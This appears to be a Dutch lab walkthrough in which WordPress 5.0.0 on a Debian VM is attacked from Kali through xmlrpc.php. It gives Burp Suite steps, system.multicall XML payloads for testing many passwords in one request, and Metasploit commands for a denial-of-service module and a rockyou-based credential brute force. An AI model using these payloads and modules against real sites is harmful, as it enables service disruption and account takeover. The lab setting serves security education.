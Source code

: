 ## Environment setup  

Debian 11 VM
running wordpress 5.0.0: https://wordpress.org/download/releases/#branch-50  

Kali VM 
running metasploit

Wordpress instellen 

username: Pieter
ww: greenday

van uit de rockyou wordlist


## Xmlrpc.php exploit 

**General**  

CVE: https://www.cvedetails.com/cve/CVE-2020-28035/

Wordpress vóór versie 5.5.2 gebruikte XML-RPC, Een remote procedure call (RPC) Dat externe applicaties en diensten in staat stelde om met een Wordpress-site te communiceren. Het bood zo een manier aan voor deze applicaties om verschillende taken en functies uit te voeren. 

Maar XML-RPC had een aantal beveiligings- en prestatieproblemen.
Een van de grootste, is dat je in 1 request een XML array kan steken.
en zo kan je in 1 request honderden XML requests laten uitvoeren.
**Burp Suite en XML POSTS**


Instructions:

        Open browser
        browse naar (wordpresserver)/xmlrpc.php
        Dit zou "XML-RPC server accepts POST requests only." 
        moeten teruggeven, zo weet je dat xmlrpc aanstaat op de 
        wordpress server

        Open burp suite
        selecteer de proxy tab
        Open browser via proxy tab en ga naar (wordpresserver)/xmlrpc.php
        klik op forward tot je de juiste request krijgt.
        send deze request naar de repeater (via actions)

        open de repeater tab
        verander de GET naar POST

        en injecteer de XML payload

        <methodCall>
        <methodName>wp.getUsersBlogs</methodName>
        <params>
        <param><value>admin</value></param>
        <param><value>pass</value></param>
        </params>
        </methodCall>

        klik dan op Send.

Zoals je kunt zien, maakt XML-RPC het mogelijk om zelf verzoeken naar WordPress te sturen en te controleren of u kunt inloggen. Het meest cruciale aspect hierbij is het volgende:

Het belangrijkste verschil tussen een verzoek via XML-RPC en de WordPress-website zelf, is dat XML-RPC meerdere verzoeken in één enkele POST-aanvraag kan bundelen, zelfs honderden. Dit noemt een multicall. Desondanks wordt dit voor de webserver geregistreerd als slechts één POST-verzoek. Hierdoor kan het duizenden wachtwoorden en functies uitvoeren met een minimaal aantal POST-verzoeken.

Een voorbeeld: 

        Vervang de XML payload met:

         <methodCall>
        <methodName>system.multicall</methodName>
        <params>
            <param>
            <value>
                <array>
                <data>
                    <value>
                    <struct>
                        <member>
                        <name>methodName</name>
                        <value><string>wp.getUsersBlogs</string></value>
                        </member>
                        <member>
                        <name>params</name>
                        <value>
                            <array>
                            <data>
                                <value><string>admin</string></value>
                                <value><string>password1</string></value>
                            </data>
                            </array>
                        </value>
                        </member>
                    </struct>
                    </value>
                    <value>
                    <struct>
                        <member>
                        <name>methodName</name>
                        <value><string>wp.getUsersBlogs</string></value>
                        </member>
                        <member>
                        <name>params</name>
                        <value>
                            <array>
                            <data>
                                <value><string>admin</string></value>
                                <value><string>password2</string></value>
                            </data>
                            </array>
                        </value>
                        </member>
                    </struct>
                    </value>
                </data>
                </array>
            </value>
            </param>
        </params>
        </methodCall>

Zoals je kan zien antwoord de server op alle calls in de multicall.
Dit opent de server voor DOS aanvallen met een kleine hoeveelheid POST calls en 
nog belangrijker, brute force attacks die een stuk minder opvallend zijn dan alternatieven. 

We zullen beiden tonen aan de hand van het metasploit framework.

instructies:

        Open de Kali VM
        username: osboxes
        ww: osboxes.org
        Open het metasploit framwork (kan via de search bar)

**DOS attack**  

In de debian VM:

        top

In de Kali VM:

        search wordpress_xmlrpc
        use auxiliary/dos/http/wordpress_xmlrpc_dos 
        set RHOSTS 192.168.1.60
        set RPORT 80
        set RLIMIT 10000000
        show options
        run

Ga nu naar de Debian vm en toon de cpu usage

**Brute force credentials**  

In de Kali VM:
        cd /usr/share/wordlists
        sudo gzip -d rockyou.txt.gz

        sudo nano /usr/share/wordlists/names.txt

        msfconsole
        search wordpress_xmlrpc
        use auxiliary/scanner/http/wordpress_xmlrpc_login
        set RHOSTS 192.168.1.60
        sudo gunzip /usr/share/wordlists/rockyou.txt.gz
        set USER_FILE /usr/share/wordlists/names.txt
        set PASS_FILE /usr/share/wordlists/rockyou.txt
        set STOP_ON_SUCCESS true
        run